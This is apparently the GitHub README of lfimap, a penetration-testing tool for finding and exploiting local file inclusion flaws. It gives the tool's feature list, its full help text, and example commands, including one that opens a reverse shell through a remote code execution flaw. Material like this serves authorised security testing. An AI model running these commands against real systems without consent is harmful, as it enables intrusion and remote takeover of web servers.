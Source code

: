 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- Filter wrapper for arbitrary file inclusion
- Data wrapper for remote command execution
- Input wrapper for remote command execution
- Expect wrapper for remote command execution
- File wrapper for arbitrary file inclusion
- Path truncation for arbitrary file inclusion
- Remote file inclusion for code execution
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Basic reflected XSS testing
- Support for POST argument testing
- Support for custom http headers
- Support for specifying cookies for authenticated requests
- Support for specifying web proxy to send requests through
- Support for specifying delay in between requests
- Support for payload manipulation via url and base64 encoding(s)
- Support for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### -h, --help

```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <data>] [-H <header>] [-M <method>]
                 [-P <proxy>] [--useragent <agent>] [--referer <referer>] [--placeholder <name>]
                 [--delay <milis>] [--http-ok <number>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r]
                 [-c] [-file] [-heur] [-a] [-n <U|B>] [-q] [-x] [--lhost <lhost>] [--lport <lport>]
                 [-wT <path>] [--use-long] [--log <file>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]              Specify url, Ex: "http://example.org/vuln.php?param=PWN"
  -F [urlfile]          Specify url wordlist (every line should have --param|"PWN")

GENERAL OPTIONS:
  -C <cookie>           Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <data>             Specify HTTP request form data
  -H <header>           Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -M <method>           Specify HTTP request method to use for testing
  -P <proxy>            Specify proxy. Ex: "http://127.0.0.1:8080"
  --useragent <agent>   Specify HTTP user agent header value
  --referer <referer>   Specify HTTP referer header value
  --placeholder <name>  Specify different testing placeholder value (default "PWN")
  --delay <milis>       Specify delay in miliseconds after each request
  --http-ok <number>    Specify http response code(s) to treat as valid
  --no-stop             Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter          Attack using filter wrapper
  -i, --input           Attack using input wrapper
  -d, --data            Attack using data wrapper
  -e, --expect          Attack using expect wrapper
  -t, --trunc           Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi             Attack using remote file inclusion
  -c, --cmd             Attack using command injection
  -file, --file         Attack using file wrapper
  -heur, --heuristics   Test for miscellaneous vulns using heuristics
  -a, --all             Use all available testing methods

PAYLOAD OPTIONS:
  -n <U|B>              Specify additional payload encoding(s). "U" for URL, "B" for base64
  -q, --quick           Perform quick testing with few payloads
  -x, --exploit         Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>       Specify local ip address for reverse connection
  --lport <lport>       Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>            Specify path to wordlist for truncation test modality
  --use-long            Use "wordlists/long.txt" wordlist for truncation test modality

OUTPUT OPTIONS:
  --log <file>          Output all requests and responses to specified file

OTHER:
  -v, --verbose         Print more detailed output when performing attacks
  -h, --help            Print this help message
  
```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
